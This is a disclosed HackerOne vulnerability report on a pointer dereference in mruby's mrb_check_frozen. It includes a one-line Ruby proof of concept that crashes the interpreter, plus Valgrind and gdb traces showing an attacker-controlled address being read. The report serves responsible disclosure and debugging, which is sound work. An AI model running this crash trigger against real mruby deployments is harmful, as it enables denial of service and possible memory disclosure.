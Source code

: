 # NULL pointer dereference in `mrb_check_frozen`

## Report Details
- **Report ID**: 621308
- **URL**: https://hackerone.com/reports/621308
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2019-06-19T21:15:30.505Z
- **Disclosed**: 2019-09-04T13:46:21.053Z

## Reporter
- **Username**: dgaletic
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify-scripts

## Vulnerability Information
PoC
===
The following demonstrates a crash:

```
3735928559.remove_instance_variable '@a'
```

Debug info
==========
Valgrind suggests the crash happens due to an invalid read in `mrb_check_frozen`:

```
==4882== Memcheck, a memory error detector
==4882== Copyright (C) 2002-2017, and GNU GPL'd, by Julian Seward et al.
==4882== Using Valgrind-3.14.0 and LibVEX; rerun with -h for copyright info
==4882== Command: mruby eraser.rb
==4882==
==4882== Invalid read of size 4
==4882==    at 0x115A64: mrb_check_frozen (mruby.h:1192)
==4882==    by 0x1165F2: mrb_iv_remove (variable.c:524)
==4882==    by 0x17E30B: mrb_obj_remove_instance_variable (kernel.c:642)
==4882==    by 0x16A2CE: mrb_vm_exec (vm.c:1441)
==4882==    by 0x166BD0: mrb_vm_run (vm.c:949)
==4882==    by 0x17AC57: mrb_top_run (vm.c:2837)
==4882==    by 0x153783: mrb_load_exec (parse.y:6318)
==4882==    by 0x153A56: mrb_load_file_cxt (parse.y:6327)
==4882==    by 0x10EE1C: main (mruby.c:270)
==4882==  Address 0xdeadbeef is not stack'd, malloc'd or (recently) free'd
==4882==
==4882==
==4882== Process terminating with default action of signal 11 (SIGSEGV): dumping core
==4882==  Access not within mapped region at address 0xDEADBEEF
==4882==    at 0x115A64: mrb_check_frozen (mruby.h:1192)
==4882==    by 0x1165F2: mrb_iv_remove (variable.c:524)
==4882==    by 0x17E30B: mrb_obj_remove_instance_variable (kernel.c:642)
==4882==    by 0x16A2CE: mrb_vm_exec (vm.c:1441)
==4882==    by 0x166BD0: mrb_vm_run (vm.c:949)
==4882==    by 0x17AC57: mrb_top_run (vm.c:2837)
==4882==    by 0x153783: mrb_load_exec (parse.y:6318)
==4882==    by 0x153A56: mrb_load_file_cxt (parse.y:6327)
==4882==    by 0x10EE1C: main (mruby.c:270)
```

Examining it in gdb shows an attempted dereference of the pointer `o`.

```
1190│ MRB_INLINE void mrb_check_frozen(mrb_state *mrb, void *o)
1191│ {
1192├─> if (MRB_FROZEN_P((struct RBasic*)o)) mrb_frozen_error(mrb, o);
1193│ }
```

The pointer, however, doesn't contain a valid address but a value controlled by
the attacker -- the integer from the POC on which `remove_instance_variable` was
called.

```
(gdb) p o
$2 = (void *) 0xdeadbeef
(gdb) f 1
#1  0x00005555555625f3 in mrb_iv_remove (mrb=0x55555565d260, obj=..., sym=1008) at src/variable.c:524
(gdb) p obj
$3 = {value = {f = 1.8457939563190925e-314, p = 0xdeadbeef, i = 3735928559, sym = 3735928559}, tt = MRB_TT_FIXNUM}
```

The POC seems to work regardless of the number used, including `0`.

==========

Test platform
=============
* Arch Linux

mruby SHA: c53b7cedccf7f5260dc8b4f88c5f93ea550bc5df

Thank you,
Dinko Galetic
Denis Kasak

## Impact

Denial of service, with a possible information leak / arbitrary memory read because of the attacker-controlled address.

## Attachments
- poc
